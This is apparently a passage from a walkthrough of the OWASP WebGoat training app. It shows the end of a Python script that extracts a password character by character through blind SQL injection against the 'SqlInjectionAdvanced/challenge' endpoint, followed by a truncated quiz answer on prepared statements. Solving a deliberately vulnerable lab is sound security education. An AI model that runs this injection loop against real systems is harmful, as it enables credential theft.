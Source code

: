 ```python
         }  
  
         r = requests.put('http://HOST:PORT/WebGoat/SqlInjectionAdvanced/challenge', headers=headers, data=data)  
  
         try:  
             response = json.loads(r.text)  
         except:  
             print("Wrong JSESSIONID, find it by looking at your requests once logged in.")  
             return  
  
         if "already exists please try to register with a different username" not in response['feedback']:  
             alphabet_index += 1  
             if alphabet_index > len(alphabet) - 1:  
                 return  
         else:  
             password += alphabet[alphabet_index]  
             print(password)  
             alphabet_index = 0  
             password_index += 1  
  
sql_injection_advance_5()
```  

![SQLi Advanced 5](images/wiki_owasp_webgoat/sqli-advanced-5.png)

6.

**1. What is the difference between a prepared statement and a statement?**

Solution 4: A statement has got values instead of a prepared statement
